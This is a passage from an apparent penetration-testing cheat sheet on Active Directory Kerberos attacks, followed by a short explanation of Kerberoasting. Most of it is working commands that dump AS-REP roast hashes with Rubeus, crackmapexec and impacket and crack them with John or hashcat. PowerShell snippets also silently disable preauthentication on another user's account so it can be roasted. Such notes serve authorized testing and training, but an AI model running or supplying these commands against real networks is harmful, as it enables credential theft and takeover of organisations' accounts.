 Collecting hashes using AS-REP Roast attack:

```powershell
# Windows: use Rubeus.exe (can use /format:hashcat interchangably)
.\Rubeus.exe asreproast /format:john /outfile:asreproast.hash
# push to stdout instead of file
.\Rubeus.exe asreproast /nowrap

# Kali: using crackmapexec, automatically finds all AS-REP Roastable users & grabs hashes
crackmapexec ldap VICTIM -u USERNAME -p PASSWORD --asreproast asreproast.hash

# Kali: use impacket (specify user info for authentication to DC)
impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```

Cracking the AS-REP roast hashes:

```sh
# using John-the-Ripper (auto-detects krb5asrep format)
john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.hash

# using hashcat
hashcat -m 18200 --force -r /usr/share/hashcat/rules/best64.rule asreproast.hash /usr/share/wordlists/rockyou.txt
```

If you have write permissions for another user account (e.g. `GenericAll`), then, instead of changing their password, you could momentarily set their account to disable Preauth, allowing you to AS-REP roast their account. Here's how:

```powershell
# using Microsoft ActiveDirectory Module
get-aduser -identity $USERNAME | Set-ADAccountControl -doesnotrequirepreauth $true

# using AD Provider
$flag = (Get-ItemProperty -Path "AD:\$DISTINGUISHED_NAME" -Name useraccountcontrol).useraccountcontrol -bor 0x400000
Set-ItemProperty -Path "AD:\$DISTINGUISHED_NAME" -Name useraccountcontrol -Value "$flag" -Confirm:$false

# using ADSI accelerator (legacy, may not work for cloud-based servers)
$user = [adsi]"LDAP://$DISTINGUISHED_NAME"
$flag = $user.userAccountControl.value -bor 0x400000
$user.userAccountControl = $flag
$user.SetInfo()
```


### 5.2.4 Kerberoasting

Kerberoasting is an attack to retrieve the password hash of a Service Principal Name (SPN) that can be brute-forced offline.

When requesting the service ticket from the KDC, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN. These checks are performed only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. The service ticket's HMAC is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt the HMAC using brute force or guessing, we can use this information to crack the cleartext password of the service account. This is known as Kerberoasting. It is very similar to AS-REP Roasting, except it is attacking SPNs' hashes instead of users'.

